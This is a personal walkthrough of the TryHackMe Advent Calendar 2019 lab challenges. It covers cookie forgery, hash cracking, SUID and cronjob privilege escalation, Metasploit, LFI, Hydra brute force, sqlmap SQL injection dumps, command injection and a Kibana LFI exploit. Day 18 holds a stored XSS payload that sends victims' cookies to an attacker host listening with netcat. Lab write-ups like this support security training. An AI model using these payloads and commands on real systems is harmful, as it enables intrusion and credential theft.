# [Advent Calendar 2019](https://tryhackme.com/room/25daysofchristmas)

## [Day 1] Inventory Management

- [Get Help](https://docs.google.com/document/d/1PHs7uRS1whLY9tgxH1lj-bnEVWtXPXpo45zWUlbknpU/edit?usp=sharing)

1. What is the name of the cookie used for authentication?

Registered an account and checked the network tab in the developer tools.

A: authid

2. If you decode the cookie, what is the value of the fixed part of the cookie?

- Decoded from base64

A: v4er9ll1!ss

3. After accessing his account, what did the user mcinventory request?



- The first part of the cookie was the username, so I changed the value to mcinventory then encoded it to base64. Changed the cookie on the webpage and refresed the page. On deleted entries we get our answer:



A: firewall

## [Day2] Arctic Forum

- [Get Help](https://docs.google.com/document/d/1622ejYtCmLOS0zd16CyfhA1xgQk8l55gYWMY8fnpHfQ/edit)

1. What is the path of the hidden page?

- Tried Gobuster and dirsearch and found the answer



A: /sysadmin

2. What is the password you found?

- Opened the page source and saw a name of a github repo



- Found some credentials:



A: defaultpass

3. What do you have to take to the 'partay'

- Logged in and found the flag:



A: Eggnog

## [Day3] Evil Elf

- [Get Help](https://docs.google.com/document/d/1ZVsOtW7mM-4neZZ4QtYCEp__exiMrvlUCXTxhB-zyxk/edit?usp=sharing)

1. Whats the destination IP on packet number 998?



A: 63.32.89.195

2. What item is on the Christmas list?

- Sorted the packets after the Protocol and checked out the TELNET ones, as we know they send data in plain text. We found the answer:



A: ps4

3. Crack buddy's password!

- Alternatively, we can use the option "Follow TCP Stream" on the first TELNET package or just use strings on the pcap file:



- Firstly, in the */etc/shadow* file the account details have the following format: `username:$hash_algo$hash_salt$hash_data:other_data`

- Figure out it is an sha512 hash and so I used hashcat with hash-mode 1800 to crack it using rockyou.txt as a wordlist:

 

A: rainbow


## [Day4] Training

- [Docs to help](https://docs.google.com/document/d/1CpwM_MdHgRqlPSe4eCC_-rVgi8F1xh88PKOySTRSkxU/edit?usp=sharing)

- File system:



- Format of */etc/passwd*:

	- `username:x(represent their password):userid:groupid:useridinfo:folder/location:/shell/location`
1. How many visible files are there in the home directory(excluding ./ and ../)?



A: 8

2. What is the content of file5?

- `cat file5`

A: recipes 

3. Which file contains the string ‘password’?

- `grep -iRl password`

A: file6

4. What is the IP address in a file in the home folder?

- Used this command to check for an IP address recursively with the help of some *regex*: `grep -ER "([0-9]{1,3}[\.]){3}[0-9]{1,3}"`

A: 10.0.0.05

5. How many users can log into the machine?

- Go into /home directory and do an `ls`. Don't forget *root*!

A: 3

6. What is the sha1 hash of file8?

- `sha1sum file8`

A: fa67ee594358d83becdd2cb6c466b25320fd2835

7. What is mcsysadmin’s password hash?

- Tried to access /etc/shadow but we don't have the right privileges. Scanned the given doc once again and tried to search for backups with the find command. Found one of shadows and then just cat it:



A: $6$jbosYsU/$qOYToX/hnKGjT0EscuUIiIqF8GHgokHdy/Rg/DaB.RgkrbeBXPdzpHdMLI6cQJLdFlS4gkBMzilDBYcQvu2ro/

## [Day5] Ho-Ho-Hosint

- [Help Doc](https://blog.tryhackme.com/ho-ho/)


1. What is Lola's date of birth? Format: Month Date, Year(e.g November 12, 2019)

- Ran exiftool and found a creator name. Tried foremost, binwalk, strings but nothing popped up. Checked the hint and then I searched twitter for the creator name and I found the birth date.


A: December 29, 1900

2. What is Lola's current occupation?

- From her bio, we can see she is working for Santa

A: Santa's helper


3. What phone does Lola make?

- From her only tweet, we can deduct it is an Iphone X

A: Iphone X 

4. What date did Lola first start her photography? Format: dd/mm/yyyy

- Searched on the Wayback Machine website and see the first snapshot of the website is from 23th of OCtober 2019. Entered the website and read in the title when she started photographing



A: 23/10/2014


5. What famous woman does Lola have on her web page?

- Used Google's reverse Image Searching engine 


A: Ada Lovelace

## [Day6] Data Elf-iltration

- [Help Doc](https://docs.google.com/document/d/17vU134ZfKiiE-DgiynrO0MySo4_VCGCpw2YJV_Kp3Pk/edit?usp=sharing)

- **Data Exfiltration** is the technique of transferring unauthorized data out of the network

- *Techniques*:

	- DNS -> most common
	- FTP/SFTP based file transfer
	- SMB based file transfer
	- HTPP/HTTPS
	- Steganography
	- ICMP

-
1. What data was exfiltrated via DNS?

- Copied the subdomain hex value of website holidaythief.com and used an onlive converted to ascii to get the answer.

A: Candy Cane Serial Number 8491

2. What did Little Timmy want to be for Christmas?

- Used fcrackzip with rockyou on the zip file I got from exporting objects in Wireshark. Eventually it found that the pw to unzip the file was 'december'. Using this, I got some gift lists.



A: pentester

3. What was hidden within the file?

- Used steghide to extract the file from the picture I got from exporting objects in Wireshark and it revealed a poem abouc RFC527



A: RFC527

## [Day7] Skilling Up

- [Help Doc](https://docs.google.com/document/d/1q0FziVZM3zCWhcgtPpljVPzkBX0fMAh6ebrXVM5rg08/edit?usp=sharing)

1. How many TCP ports under 1000 are open?

- Simple Nmap scan revealed there are only 3 TCP ports open



A: 3

2. What is the name of the OS of the host?

- Had to use aggresive os scan option in order to get a reliable answer from Nmap:



A: Linux

3. What version of SSH is running?

- Use the `-sV` flag:



A: 7.4

4. What is the name of the file that is accessible on the server you found running?

- From the scan we can see there is an http server running on port 999. We access that and we get one file we can download:



A: interesting.file


## [Day8] SUID Shenanigans

- [Help Doc](https://blog.tryhackme.com/linux-privilege-escalation-suid/)

- Deploy and SSH into the machine.

	- Username: holly
	- Password: tuD@4vt0G*TU

- Sometimes, we need to have root privileges in order to execute some important commands

	- one example of this is changing our password

		- because we need to be able to do this, we need to have executing privileges on the file /etc/passwd in order to successfully change our password.

- In essence, SUID files execute with the permission of the **file owner**.

1. What port is SSH running on?

- An nmap scan on all ports revealed on which port ssh is running



A: 65534

2. Find and run a file as igor. Read the file /home/igor/flag1.txt

- Search for all SUIDs which I can use as igor.

- Found that find was one of the commands so I ran it as igor and used `-exec cat {} \;` to get the contents of flag1.txt



A: THM{d3f0708bdd9accda7f937d013eaf2cd8}

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

- Search the binaries with a SUID by root. After I tried a couple, I searched the website [GTFObins](https://gtfobins.github.io/#+suid) for some inspiration but I could not figure out anything. Finally, I observed a binary called system-control. It seems like it executes any command we give it so I used it to become root and cat the flag2.txt file.



A: THM{8c8211826239d849fa8d6df03749c3a2}

## [Day9] Requests

- [Help Doc](https://docs.google.com/document/d/1FyAnxlQpzh0Cy17cKLsUZYCYqUA3eHu2hm0snilaPL0/edit?usp=sharing)


1. What is the value of the flag?

```python
#!/usr/bin/env python

import requests

host = 'http://10.10.169.100:3000'
path = '/'
answer = []

while path != '/end':
	response = requests.get(host + path)
	reponse_in_json_format = response.json()
	path = '/' + reponse_in_json_format['next'] # get next letter
	if path != '/end':
		answer.append(reponse_in_json_format['value']) # update flag	

print("".join(answer))
```

A: sCrIPtKiDdend

## [Day10] Metasploit-a-ho-ho-ho

- [Help Doc](https://tryhackme.com/resources/blog/metasploit)

- Steps:
	
	- select a module
	- set the correct payload
	- set our options 
	- ran the payload

- I used nmap to get an idea of the ip address and from that we found port 80 is open. Searched the source for something useful and found this js file:



- Inside, some clues indicate the version 2.0 of Struts.

- Searched for a proper exploit on Metasploit and decided to use the same as the one used on the blog post. Set all of the required parameters and chose the same payload as in the blog. Type exploit and got a meterpreter:




1. Compromise the web server using Metasploit. What is flag1?

- Ran shell on the meterpreter to get a shell and then I used find to get to the first flag file: `file \ 2>\dev\null | grep "flag1"`

A: THM{3ad96bb13ec963a5ca4cb99302b37e12}

2. Now you've compromised the web server, get onto the main system. What is Santa's SSH password?

- Moved to `/home` and found there is one directory `santa` that contained some ssh credentials that I used then to log into the tomcat server as santa.

	-`santa:rudolphrednosedreindeer`

A: rudolphrednosedreindeer

3. Who is on line 148 of the naughty list?

- Used command `cat naughty_list.txt | head -n148 | tail -n1`

A: Melisa Vanhoose

4. Who is on line 52 of the nice list?

- Used command `cat nice_list.txt | head -n 52 | tail -n1`

A: Lindsey Gaffney


## [Day11] Elf Applications

- [Help Doc](https://docs.google.com/document/d/1qCMuPwBR0gWIDfk_PXt0Jr220JIJAQ-N4foDZDVX59U/edit#)

### FTP

- uses a client-server model to communicate

- Most FTP servers allow *anonymous login*:

	- user: anonymous
	- pw: anonymous

- Old and often vulnerable protocol that is still used today 

- runs on *port 21*

- connect to a FTP server: `ftp <IP_Address>`

### NFS (Network File Share)

- runs on both TCP and UDP on ports 111 and 2049

- acts as a distributed system

- uses linux permission system to manage autehntication authorization to files

- check if any shares are available: `showmount -e <ip-address>`

	- if this outputs any shares, you can mount it (need to have sudo permission) to your file system: `mount ip:/file/path /local/file/path`

	- unmount: `unmount /local/file/path`

### MySQL

- uses TCP and runs on *port 3306* by default

1. What is the password inside the creds.txt file?



A: securepassword123

2. What is the name of the file running on port 21?

- logged in using the default credentials and downloaded the file to get some credentials?





A: file.txt

3. What is the password after enumerating the database?

- `mysql -h 10.10.63.35 -u root -p ff912ABD*`

- Once in: `show databases;`

- `use data;`

- `SELECT * FROM USERS;`



A: bestpassword

## [Day12] Elfcryption

- [Help Doc](https://docs.google.com/document/d/1xUOtEZOTS_L8u_S5Fbs1Wof7mdpWQrj2NkgWLV9tqns/edit?usp=sharing)

- How to generate private/public keys pair and use them to encrypt/decrypt a files:



1. What is the md5 hashsum of the encrypted note1 file?

- `md5sum note1.txt.gpg`

A: 24cf615e2a4f42718f2ff36b35614f8f

2. Where was elf Bob told to meet Alice?

- Used the hint to get the gpg passphrase:



A: Santa's Grotto

3. Decrypt note2 and obtain the flag!

- Decrypt the note2 file using the private key and using the passphrase given in the hint:



A: THM{ed9ccb6802c5d0f905ea747a310bba23}


## [Day13] Accumulate

- Here's the general way to attempt exploitation when just given an IP address:

	- start out with an NMAP scan to see what services are running
    
    - enumerate these services and try exploit them
    
    - use these exploited services to get an initial access to the host machine
    
    - enumerate the host machine to elevate privileges

- Enumeration:



1. A web server is running on the target. What is the hidden directory which the website lives on?

- Used gobuster and found one directory: /retro

A: /retro

2. Gain initial access and read the contents of user.txt

- Used `wpscan --url 10.10.195.52/retro`

- Found the version of wp: 5.2.1

- Used this url http://10.10.195.52/retro/index.php/comments/feed/ to get to the comment in which Wade tells his password: parzival

	- use username wade and that to log into his account

- Used Remmina RDP to connect to the machine using the credentials stolen



A: THM{HACK_PLAYER_ONE}

3. [Optional] Elevate privileges and read the content of root.txt

- Browse history and find pages on *CVE-2019-1388*

- How to PrivEsc:

1) find a program that can trigger the UAC prompt screen

2) select "Show more details"

3) select "Show information about the publisher's certificate"

4) click on the "Issued by" URL link it will prompt a browser interface.

5) wait for the site to be fully loaded & select "save as" to prompt a explorer window for "save as".

6) on the explorer window address path, enter the cmd.exe full path:
C:\WINDOWS\system32\cmd.exe

7) now you'll have an escalated privileges command prompt. 

- [In Action](https://www.youtube.com/watch?v=RW5l6dQ8H-8)



A: THM{COIN_OPERATED_EXPLOITATION}

## [Day14] Unknown Storage

- [Help Doc](https://docs.google.com/document/d/13uHBw3L9wdDAFboErSq_QV8omb3yCol0doo6uMGzJWo/edit#)

-  AWS provides the ability for clients to store a lot of data using a service called **Simple Storage Service(S3)**

- The first part of *enumerating* s3 buckets is having an s3 bucket name. How would you find an s3 bucket name:
	- Source code on git repositories 
 	- Analysing requests on web pages
		- Some pages retrieve static resources from s3 buckets
	- Domain name of product names:
		- If a product or domain is called “servicename” then the s3 bucket may also be called “servicename”

- Once we have an s3 bucket, we can check if it’s publicly accessible by browsing to the URL. The format of the URL is:
*bucketname.s3.amazonaws.com*

- Even though S3 buckets are global, we can still access them on their region:
bucketname.region-name.amazonaws.com

- If you’ve found objects on an s3 bucket, you would want to download them to view their contents. You do this using the AWS CLI. To use the AWS CLI, you need to create an account.  

- Once you have created an AWS account, you can check the contents of the bucket using the command
`aws s3 ls s3://bucket-name`

- To download the files, you can use the command:
`aws s3 cp s3://bucket-name/file-name local-location`

- Alternatively, you can also use the following method to access a file:
`bucketname.region-name.amazonaws.com/file-name`


1. What is the name of the file you found?

- Accessed the following link and got some info about the bucket:



A: employee_names.txt

2. What is in the file?

- Then I added /file_name to get the contents of the file



A: mcchef

## [Day15] LFI

- [Help Doc](https://blog.tryhackme.com/lfi/)

-For example if a web application has the following request:

`https://example.com/?include_file=file1.php`

- This would take the contents from file1.php and display it on the page. 

- If an *application doesn't whitelist* which files can be included, a user would be able to request the file ***/etc/shadow**, showing all users hashed passwords on the system* running the web application.

- When the web application includes a file, it will read it with the permissions of the user running the web server. 
	
	- For example, if the user joe runs the web server, it will read the file with joe's permissions, if its running as root, it will have the root users permissions.

- With local file inclusion, you can try and view the following files to assist you in taking over a machine.

    - `/etc/shadow` - View hashes passwords of all users on the system
    
    - `server.js` or `index.js` 

    	- If the application was written in NodeJS, these are common file names that contain the main code to an application - potential API credentials might be exposed upon reading the file.
     
     - `/etc/hosts` 

     	- Perhaps the web server machine is communicating with other devices on the network.
    
    - `/uploads/evil.php` 

    	- If you manage to upload your own web shell onto the web server at some point, you can have it executed by including the file.

- Take the following request:

`https://example.com/notes/?include=/etc/shadow`

- The server will think its going to `/notes/include/etc/shadow`. 

- You can't include a slash in the URL as the web server will think its making a request to a different directory.

- The solution is to use **URL encoding**. 

	- URL encoding replaces unsafe ASCII characters with '%' followed by two hexadecimal digits. 

	- A slash (/) can be URL encoded as %2F. This means we can change the request we previously had to:

`https://example.com/notes/?include=%2Fetc%2Fshadow`

- This new request will be made to /notes/ and then convert the %2F to a slash! 

	- Removing any ambiguity in where the request is made and the file we're including.

1. What is Charlie going to book a holiday to?

- Just read the webpage

A: Hawaii

2. Read /etc/shadow and crack Charlies password.

- If we view the source we can see a function we can potentially exploit using LFI:



- I get the /etc/shadow file using LFI:



- Use hashcat with rockyou.txt to crack the hash:



A: password1

3. What is flag1.txt?

- URl encoded /home/charlie/flag1.txt and got the flag:



A: THM{4ea2adf842713ad3ce0c1f05ef12256d}

## [Day16] File Confusion

- [Help Doc](https://docs.google.com/document/d/13eYEcqpyp3fIAnaDR8PHz6qibBJJwf2Vp5M77KkEKtw/edit#)

```python
import os, zipfile, exiftool

listOfFiles = os.listdir("/home/george/Documents/TryHackMe/AdventCalendar2019/zipped")

path = "/home/george/Documents/TryHackMe/AdventCalendar2019/zipped"

alreadyZipped = []

toBeZipped = True

# Zipping nested files in the same directory and removing the .zip files afterwards

while toBeZipped:
	listOfFiles = os.listdir("/home/george/Documents/TryHackMe/AdventCalendar2019/zipped")
	for file in listOfFiles:
		toBeZipped = False
		if file not in alreadyZipped and file[-4:] == ".zip":
			toBeZipped = True
			with zipfile.ZipFile(path + '/' + file, 'r') as zip_ref:
				zip_ref.extractall(path)
				alreadyZipped.append(file)


listOfFiles = os.listdir("/home/george/Documents/TryHackMe/AdventCalendar2019/zipped")
for file in listOfFiles:
	if file[-4:] == ".zip" :
		os.remove(path + '/' + file)

print(f'Extracted files: {len(os.listdir("/home/george/Documents/TryHackMe/AdventCalendar2019/zipped"))}')

# Determine the number of files that have XML version equal to 1.1 using exiftool

files = [file for file in listOfFiles]

with exiftool.ExifTool() as et: 
	metadata = et.get_metadata_batch(files)

metacounter = []

for d in metadata:
	if 'XMP:Version' in d:
		metacounter.append(d['SourceFile'] + ' ' + str(d['XMP:Version']))

print(f'There are {len(metacounter)} files with version 1.1, namely: ')

for f in metacounter:
	print(f)

# Searching for the password in the files

for file in listOfFiles:
	try:
		with open(file,'r') as reader:
			lines = reader.readlines()
			for line in lines:
				if 'password' in line:
					print(f"Password found in {file}: {line[-15:-2]}") 
	except:
		continue
```

1. How many files did you extract(excluding all the .zip files)

A: 50

2. How many files contain Version: 1.1 in their metadata?

A: 3

3. Which file contains the password?

A: dL6w.txt


## [Day17] Hydra-ha-ha-haa

- [Help Doc](https://blog.tryhackme.com/hydra/)

1. Use Hydra to bruteforce molly's web password. What is flag 1? (The flag is mistyped, its THM, not TMH)

- Performed an Nmap scan and saw there are two ports open: 80 and 22.

- Used the command `hydra -l molly -P rockyou.txt 10.10.64.64 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V` to get the password for molly:



A:  THM{2673a7dd116de68e85c48ec0b1f2612e}

2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

- Used the following command: `hydra -l molly -P rockyou.txt 10.10.64.64 ssh -V`



- Did not use `-t 4` because it finds the pw faster in this case :)

- Logged in using ssh and cat the flag.

A: THM{c8eeb0468febbadea859baeb33b2541b}


## [Day18] ELF JS

- [Help Doc](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#)

- A lot of different websites require user input. 

	- This includes everything from adding posts to a form to adding an amount in a bank transfer. 

	- We’ve seen that websites require Javascript to work properly. 

	- A malicious user could easily inject javascript into a page and perform malicious actions. 

		- This type of an attack is called *(XSS(Cross Site Scripting))*. 

### Reflected XSS

- Reflected XSS is when arbitrary javascript is reflected off a server(and is not permanent). 

- This is done in scenarios like error pages, links where the payload is passed as a request and also included in the response. 

	- The most common case for this is when an attacker sends a URL containing a malicious payload to the victim. 

		- The victim would click this URL and the payload would be executed.

### Stored XSS

- Stored XSS is when arbitrary javascript is stored on a database and this javascript is retrieved and displayed to a user. 

- This tends to be more dangerous than reflected XSS as the payload is automatically passed(and even executed) to a user. 

- Javascript is very powerful and an attacker can do many things with Javascript:

	- *Steal session cookies*:

		- This would allow an attacker to access a user’s account

	- *Write Keyloggers*:

		- This would allow an attacker to extract sensitive information from a user such as credit card details

	- *General Spam*:

		- An attacker could just be a nuisance and ruin a user’s experience with a website by manipulating various elements on the page and more


1. What is the admin's authid cookie value?

- I used the following javascript code to create a post: `<script>window.location = 'http://10.8.12.151:4545/?=' + document.cookie</script>`

- Then I opened up a netcat on port 4545 and waited quite a bit for the admin to log in:



A: 2564799a4e6689972f6d9e1c7b406f87065cbf65

## [Day19] Commands

- [Help Doc](https://docs.google.com/document/d/1W65iKmUMtz-srteErhrGFJkWBXJ4Xk5PYlCZVMIZgs8/edit?usp=sharing)

- Command Injection attacks are considered extremely dangerous; they essentially allow an attacker to execute commands on a system. 

- The most common thing to do when discovering you have a command injection attack is getting a reverse shell. 

	- Reverse shells can be thought of as backdoors. When an attacker creates this reverse shell, the target server acts as a client, executes command sent by an attacker, and sometimes sends the output of the command back to the attacker. 
	- An attacker would usually use system resources on the target to create a shell:

		- Netcat
		- Python
		- Bash

- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet - this is a good resource to use different programs to create a reverse shell. 


- an application can interact with the underlying system in different ways:

	- The application may just ask users to input commands

		- This is the best case scenario and tends to be very rare. 
		- All you would have to do is just enter a command and the web application will execute it on the underlying system

	- The application filters allowed commands:

		- This tends to be more common than the previous issue. 

		- For example, an application may only accept the ping command. 

		- You would have to enumerate what commands are allowed and try to use the allowed command to exfiltrate data 

	- The application takes input to a command:

		- This is even more common. 

		- An example is that an application takes input to the ping command(an IP address) and passes this input to the ping command on the backend. 

	- If the input isn’t encoded or filtered, you can actually uses this to run other commands.

		- The && operator is used with more than one command e.g. ls && pwd. The second command only executes if the first command and the second command is successful. You can pass an input containing && other-command and the backend would successfully execute it if both commands ran successfully.

		- The | command is used to pass output from one command to another and can also be used to execute commands on the server. 


		- The ; character also works well. In most shells, it signifies that a command is complete. You can use this to chain commands so if the input is command. Then you can provide command;other-command.

- *Where Would You Find Command Injection?* 

	- *Text boxes that take in input*

	- *Hidden URLs that take input*

		- E.g. /execute/command-name

		- Or through queries e.g. /location?parameter=command
		
		- When using URLs, remember to URL encode the characters that aren’t accepted

	- *Hidden ports*:
		
		- Some frameworks open debug ports that take in arbitrary commands 


1. What are the contents of the user.txt file?

- Tried some commands on `/api/cmd/command` to gain some knowledge about the system

- I was root and I was placed in a directory with a long path.

- So i used this command `find / -name user.txt -exec cat {} \;` to cat user.txt, which i url encoded: `find%20%2F%20-name%20user.txt%20-exec%20cat%20%7B%7D%20%5C%3B`



A: 5W7WkjxBWwhe3RNsWJ3Q


## [Day20] Cronjob Privilege Escalation

1. What port is SSH running on?



A: 4567

2. Crack sam's password and read flag1.txt

- I used Hydra to crack sam's pw and then using ssh I logged in as sam



A: THM{dec4389bc09669650f3479334532aeab}

3. Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

- Added this line to the file in /home directory that is a cronjob:



- Got a root shell:



A: THM{b27d33705f97ba2e1f444ec2da5f5f61}

## [Day21] Reverse Elf-ineering

- [Help Doc](https://drive.google.com/file/d/1maTcdquyqnZCIcJO7jLtt4cNHuRQuK4x/view?usp=sharing)

- open it using radare2: `r2 -d ./file` -> debugging mode

- analyze the program: `aa`

- general help: `?`

- help on specific info: `a?`

- get a list of functions: `afl`

- examine: `pdf @main` -> print disassembly function



- breakpoint: `db address`

- run the program: `dc`

- view content of local variable: `px @memory address`

- go to the next instruction: `ds`

- value of registers: `dr`

- The general formula for working through something like this is:
	● set appropriate break points
	● use ds to move through instructions and check the values of register and memory
	● if you make a mistake, you can always reload the program using the ood command

1. What is the value of local_ch when its corresponding movl instruction is called(first if multiple)?

- ran `r2 -d ./challenge1`

- once inside: `aa` and `afl | grep main` and `pdf @ main`





A: 1

2. What is the value of eax when the imull instruction is called?

- Made a breakpoint before imul



- Then by using `ds` and `dr` we can figure out the value of eax

A: 6

3. What is the value of local_4h before eax is set to 0?

A: 6

## [Day22] If Santa, Then Christmas

- [Help Doc](https://docs.google.com/document/d/1cIHd_YQ_PHhkUPMrEDWAIfQFb9M9ge3OFr22HHaHQOU/edit?usp=sharing)



- by analysing the main function, we can see that it compares 2 with 8 anc check if 8 is less or equal to 2.

- As this is false, it ignores the first jump and adds 1 to local_8h variable, while the local_4h remains unchanged

1. what is the value of local_8h before the end of the main function?

A: 9

2. what is the value of local_4h before the end of the main function?

A: 2


## [Day23] LapLANd (SQL injection)

- [Help Doc](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit?usp=sharing)

- Made an account and ran a very blind sqlmap that highlighted the answer to the first question and also the name of the database: *social*

1. Which field is SQL injectable? Use the input name used in the HTML code.

A: log_email

2. What is Santa Claus' email address?

- Used burp suite to intercept the POST Request:



- Then used sqlmap again to try to find the tables in the database *social*:



- Also I used more threads to speed it up a little

- Used `sqlmap -r burp.txt -D social -U users --tables --threads=5` to get the columns of table users:



- Using this command `sqlmap -r burp.txt -D social -T users -C email,username,password --dump --threads=5` I got the data I need to answer question 2 and 3 (after cracking it)




A: bigman@shefesh.com

3. What is Santa Claus' plaintext password?

- We are going to use hashcat to crack the hash of santa's pw: f1267830a78c0b59acc06b05694b2e28



A: saltnpepper

4. Santa has a secret! Which station is he meeting Mrs Mistletoe in?

- Logged in as Santa and checked its private messages:

A: Waterloo

5. Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

- Tried to upload some reverse shells as a post on santa's account. 

- Tried every php extension I could think of and also .pl and .html. The only one that did not show an image picture in the post (thus, one that worked) was .phtml:

 

A: THM{SHELLS_IN_MY_EGGNOG}

## [Day24] Elf Stalk

- Nmap scan:



- Looked on port 8000 and I found a log file. Here, i found a port and decided to check it out, as it did not show in my nmap search



- then it opened this website which gives me access to some of the database (messages).

- searching through the messages, I found some creds:


- creds: l33tperson:9Qs58Ol3AXkMWLxiEyUyyf

1. Find the password in the database

- The password we found is the answer here

A: 9Qs58Ol3AXkMWLxiEyUyyf

2. Read the contents of the /root.txt file

- The nmap port scan revealed some additional opened ports:



- As I had the version 6.4.2 and the name, I searched for some exploits. Used searchsploit and tried a CSV injection that did now work

- Googled it and found a LFI vuln [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

- In this, it is shown how to gain access through a reverse shell, but as we do not have anywhere to upload files, we will use it to get the contents of the file.

- Used this on the 5601 port: `/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../root.txt`

- As the website was hanging, I thought this is not working, but I remembered the log file that we have on port 8000.

- After a bit of banging my head against the wall there, I found the flag:



A: someELKfun